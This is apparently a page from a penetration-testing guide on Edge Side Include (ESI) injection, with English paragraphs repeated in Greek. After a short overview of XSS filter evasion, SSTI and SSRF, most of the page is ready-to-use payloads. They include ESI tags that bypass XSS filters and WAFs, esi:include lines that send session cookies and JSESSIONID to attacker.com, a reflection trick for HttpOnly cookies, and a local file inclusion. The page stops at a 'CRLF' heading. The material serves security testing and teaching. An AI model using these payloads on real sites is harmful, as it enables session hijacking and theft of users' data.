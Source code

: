 One common technique is to use different encoding or obfuscation methods to evade the client-side XSS filters. This can include encoding special characters, using alternative representations of the payload, or employing JavaScript functions to dynamically generate the payload at runtime.

Μία συνηθισμένη τεχνική είναι η χρήση διαφορετικών μεθόδων κωδικοποίησης ή απόκρυψης για να αποφευχθούν οι φίλτρα XSS του πελάτη. Αυτό μπορεί να περιλαμβάνει την κωδικοποίηση ειδικών χαρακτήρων, τη χρήση εναλλακτικών αναπαραστάσεων του φορτίου ή τη χρήση συναρτήσεων JavaScript για τη δυναμική δημιουργία του φορτίου κατά την εκτέλεση.

Another approach is to exploit vulnerabilities in the web application's server-side code that can be used to inject and execute malicious scripts. This can include server-side inclusion vulnerabilities, such as Server-Side Template Injection (SSTI) or Server-Side Request Forgery (SSRF), which can be leveraged to bypass client-side XSS protections.

Μια άλλη προσέγγιση είναι η εκμετάλλευση ευπαθειών στον κώδικα της εφαρμογής ιστού στην πλευρά του διακομιστή που μπορούν να χρησιμοποιηθούν για την εισαγωγή και εκτέλεση κακόβουλων σεναρίων. Αυτό μπορεί να περιλαμβάνει ευπάθειες στην πλευρά του διακομιστή, όπως η ενσωμάτωση πλευράς διακομιστή (Server-Side Template Injection - SSTI) ή η πλαστογραφία αιτήσεων πλευράς διακομιστή (Server-Side Request Forgery - SSRF), οι οποίες μπορούν να χρησιμοποιηθούν για την παράκαμψη των προστασιών XSS του πελάτη.

It is important for penetration testers and developers to be aware of these techniques in order to effectively test and secure web applications against XSS attacks.

Είναι σημαντικό οι ειδικοί σε δοκιμές διείσδυσης και οι προγραμματιστές να είναι ενήμεροι για αυτές τις τεχνικές προκειμένου να δοκιμάσουν και να ασφαλίσουν αποτελεσματικά τις εφαρμογές ιστού από επιθέσεις XSS.
```xml
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
<img+src=x+on<!--esi-->error=ale<!--esi-->rt(1)>
```
#### Κλοπή Cookie

* Απομακρυσμένη κλοπή cookie
```xml
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
* Κλέψτε το cookie HTTP\_ONLY με XSS ανακλώντας το στην απόκριση:
```bash
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```
#### Ιδιωτικό Τοπικό Αρχείο

Μην το συγχέετε με την "Ενσωμάτωση Τοπικού Αρχείου":
```markup
<esi:include src="secret.txt">
```
#### CRLF
